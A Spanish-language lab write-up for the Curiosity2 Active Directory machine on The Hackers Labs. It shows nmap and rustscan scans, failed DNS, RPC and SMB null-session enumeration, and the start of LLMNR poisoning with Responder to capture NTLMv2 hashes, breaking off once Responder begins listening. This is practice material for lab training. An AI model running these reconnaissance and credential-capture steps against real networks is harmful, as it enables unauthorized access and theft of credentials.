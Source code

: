 ```yaml
---
description: >-
  Writeup de la máquina de dificultad media Curiosity2 de la página https://thehackerslabs.com
title: THL - Curiosity2 | (Difficulty Medium) - Windows
date: 2025-02-11
categories: [Writeup, The Hackers Labs]
tags: [thl, hacking, the hacker labs, active directory, llmnr, medium, writeup, redteam, pentesting]
image_post: true
image: https://github.com/user-attachments/assets/c3d18551-9332-4324-a3c6-fe1f15a9c114
---
```


## Useful Skills

* DNS Enumeration
* RCP Enumeration
* SMB Enumeration
* LLMNR Poisoning

  
## Enumeration

### TCP Scan

```bash
rustscan -a 192.168.1.141 --ulimit 5000 -g
192.168.1.141 -> [53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49691,49692,49695,49703,49714,49750,57936]
```

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49691,49692,49695,49703,49714,49750,57936 -sCV 192.168.1.141 -oN tcpScan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-12 15:03 CET
Nmap scan report for 192.168.1.141 (192.168.1.141)
Host is up (0.00022s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-12 14:02:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cons.thl, Site: Default-First-Site-Name)
|_ssl-date: 2025-02-12T14:03:58+00:00; -41s from scanner time.
| ssl-cert: Subject: commonName=WIN-C73PROQLRHL.cons.thl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:WIN-C73PROQLRHL.cons.thl
| Not valid before: 2024-10-11T16:05:23
|_Not valid after:  2025-10-11T16:05:23
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cons.thl, Site: Default-First-Site-Name)
|_ssl-date: 2025-02-12T14:03:58+00:00; -41s from scanner time.
| ssl-cert: Subject: commonName=WIN-C73PROQLRHL.cons.thl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:WIN-C73PROQLRHL.cons.thl
| Not valid before: 2024-10-11T16:05:23
|_Not valid after:  2025-10-11T16:05:23
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cons.thl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=WIN-C73PROQLRHL.cons.thl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:WIN-C73PROQLRHL.cons.thl
| Not valid before: 2024-10-11T16:05:23
|_Not valid after:  2025-10-11T16:05:23
|_ssl-date: 2025-02-12T14:03:58+00:00; -41s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cons.thl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=WIN-C73PROQLRHL.cons.thl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:WIN-C73PROQLRHL.cons.thl
| Not valid before: 2024-10-11T16:05:23
|_Not valid after:  2025-10-11T16:05:23
|_ssl-date: 2025-02-12T14:03:58+00:00; -41s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
57936/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2025-02-12T14:03:58+00:00; -41s from scanner time.
| ms-sql-info: 
|   192.168.1.141\SQLEXPRESS: 
|     Instance name: SQLEXPRESS
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|     TCP port: 57936
|_    Clustered: false
| ms-sql-ntlm-info: 
|   192.168.1.141\SQLEXPRESS: 
|     Target_Name: CONS
|     NetBIOS_Domain_Name: CONS
|     NetBIOS_Computer_Name: WIN-C73PROQLRHL
|     DNS_Domain_Name: cons.thl
|     DNS_Computer_Name: WIN-C73PROQLRHL.cons.thl
|_    Product_Version: 10.0.14393
| ssl-cert: Subject: commonName=WIN-C73PROQLRHL.cons.thl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:WIN-C73PROQLRHL.cons.thl
| Not valid before: 2024-10-11T16:05:23
|_Not valid after:  2025-10-11T16:05:23
MAC Address: 08:00:27:33:E8:5A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: WIN-C73PROQLRHL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-12T14:03:50
|_  start_date: 2025-02-12T13:38:50
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: WIN-C73PROQLRHL, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:33:e8:5a (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
|_clock-skew: mean: -40s, deviation: 0s, median: -41s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.14 seconds
```

### UDP Scan

```bash
nmap -sU --top-ports 1500 --min-rate 5000 -n -Pn 192.168.1.141 -oN udpScan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-12 15:14 CET
Nmap scan report for 192.168.1.141
Host is up (0.00043s latency).
Not shown: 1327 open|filtered udp ports (no-response), 168 closed udp ports (port-unreach)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
137/udp open  netbios-ns
389/udp open  ldap
MAC Address: 08:00:27:33:E8:5A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```

> Hay que añadir el dominio cons.thl y el FQDN WIN-C73PROQLRHL.cons.thl en el archivo de configuración /etc/hosts para que se pueda resolver el nombre de dominio a la dirección IP 192.168.1.141
{: .prompt-tip }


### DNS Enumeration

Intento obtener información adicional sobre el dominio a través de consultas DNS con dig, donde intento obtener los registros NS, MX, CNAME entre otros, posteriormente, trato de realizar una transferencia de zona, pero esta resulta fallida.

```bash
dig cons.thl@192.168.1.141 axfr
;; communications error to 212.230.135.1#53: connection reset
;; communications error to 212.230.135.1#53: connection reset

; <<>> DiG 9.20.4-4-Debian <<>> cons.thl@192.168.1.141 axfr
;; global options: +cmd
; Transfer failed.
```

### RPC Enumeration

Utilizo un null session para intentar enumerar información de todo los usuarios a través de RPC, pero el null session no se encuentra habilitado

```bash
rpcclient 192.168.1.141 -U "" -N -c enumdomusers
result was NT_STATUS_ACCESS_DENIED
```

### SMB Enumeration

Utilizo NetExec para realizar un escaneo de SMB y obtener información clave como el sistema operativo, nombre del servidor, dominio, si la firma smb está habilita y si la versión antigua SMBv1 está activada o desactivada.

```bash
nxc smb 192.168.1.141
SMB  192.168.1.141  445  WIN-C73PROQLRHL  [*] Windows 10.0 Build 14393 x64 (name:WIN-C73PROQLRHL) (domain:cons.thl)  (signing:True) (SMBv1:False)
```

Utilizo NetExec para enumerar los recursos compartidos del sistema a través del protocolo SMB con autenticación nula, pero no es posible

```bash
nxc smb 192.168.1.141 -u ' ' -p '' --shares
SMB  192.168.1.141  445  WIN-C73PROQLRHL  [*] Windows 10.0 Build 14393 x64 (name:WIN-C73PROQLRHL) (domain:cons.thl) (signing:True) (SMBv1:False)
SMB  192.168.1.141  445  WIN-C73PROQLRHL  [-] cons.thl\ : STATUS_LOGON_FAILURE
```

## Exploitation

### LLMNR Poisoning

Ejecuto la herramienta responder y la dejo en segundo plano, para así intentar capturar hashes NTLMv2 de usuarios autenticados en la red. Si algún usuario del dominio intenta acceder a un recurso de red (SMB, Servidor, Web, etc...) y por alguna razón el recurso no existe Windows intenta resolver el nombre usando LLMNR o NetBIOS, lo que desembocará en que Windows envíe las credenciales del usuario en forma de hash NTLMv2 a mi recurso falso.

```bash
python3 Responder.py -I eth0 -wd
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

[+] Listening for events...


``
